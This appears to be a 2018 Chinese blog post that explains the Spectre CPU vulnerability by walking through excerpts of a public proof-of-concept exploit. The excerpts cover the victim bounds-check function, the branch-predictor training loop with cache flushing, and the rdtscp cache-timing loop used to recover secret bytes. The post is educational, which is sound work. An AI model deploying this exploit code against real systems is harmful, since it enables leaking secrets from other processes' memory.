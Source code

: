 ```yaml
---
layout:     post
title:      Intel的CPU漏洞：Spectre
subtitle:   
date:       2018-01-14
author:     Mehaei
header-img: img/post-bg-mma-4.jpg
catalog: true
tags:
    - python
---
```

最近觉得越来越忙，写博客都没精力了。一定是太沉迷农药和刷即刻了

17年年底，18年年初，Intel被爆出了Meltdown（熔断）和Spectre（幽灵）漏洞。等Spectre攻击的POC出来以后，[去github围观了一下](https://github.com/Eugnis/spectre-attack)，真的非常精妙，好想贴上来分享一下。

```
void victim_function(size_t x)
{
    if (x < array1_size)
    {
        temp &= array2[array1[x] * 512];
    }
}
```

主要代码就在Source.c里面，实际生效的不到100行，真的很精致。victim_function是用来越权访问的，看代码是没有问题的，x不符合条件，就不能访问到对应的内存。但是因为分支预测器的原因，即使没有满足if的条件，若分支预测器觉得条件会成立，还是会一边执行if的条件判断，一边执行if内的代码。当然，判断if失败后，会将if内代码执行的结果抛弃掉的。妙就妙在这里，结果会被回滚，但是cache不会。于是只要测度array2哪里访问的比较快，就知道密文是什么了。

如何欺骗分支预测器呢？看这里：

```
        /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
        training_x = tries % array1_size;
        for (j = 29; j >= 0; j--)
        {
            _mm_clflush(&array1_size);
            for (volatile int z = 0; z < 100; z++)
            {
            } /* Delay (can also mfence) */

            /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
            /* Avoid jumps in case those tip off the branch predictor */
            x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
            x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
            x = training_x ^ (x & (malicious_x ^ training_x));

            /* Call the victim! */
            victim_function(x);
        }
```

跑5次满足if条件的调用，再跑一次不满足if条件的攻击。中间用位运算是为了避免额外的if语句会触动分支预测器。

测时间的逻辑在这：

```
        /* Time reads. Order is lightly mixed up to prevent stride prediction */
        for (i = 0; i < 256; i++)
        {
            mix_i = ((i * 167) + 13) & 255;
            addr = &array2[mix_i * 512];
            time1 = __rdtscp(&junk); /* READ TIMER */
            junk = *addr; /* MEMORY ACCESS TO TIME */
            time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
            if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
                results[mix_i]++; /* cache hit - add +1 to score for this value */
        }
```

用到了[高精度的rdtscp](http://www.felixcloutier.com/x86/RDTSCP.html)来计时，可以读入CPU计数器的读数。这里还硬编码了167和13进去，其实就是两个质数，目的就是让cache预读摸不着头脑，不会因为线性预读取干扰了测时。

为了对抗Spectre攻击，[Google推出了Retpoline方法](https://support.google.com/faqs/answer/7625886)，涉及到对可执行文件的二进制修改，还没看懂。。。

